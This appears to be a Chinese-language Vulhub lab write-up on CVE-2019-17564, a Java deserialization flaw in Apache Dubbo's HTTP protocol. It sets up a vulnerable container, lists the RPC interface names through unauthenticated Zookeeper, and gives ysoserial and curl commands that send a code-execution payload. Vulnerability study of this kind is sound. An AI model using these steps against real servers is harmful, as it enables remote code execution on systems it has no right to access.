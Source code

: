 # Aapche Dubbo Java反序列化漏洞（CVE-2019-17564）

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

这个漏洞影响Apache Dubbo 2.7.4及以前版本，2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞环境

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，我们本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器：

```
./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![](1.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

进入容器，可见`touch /tmp/success`已成功执行。

![](3.png)
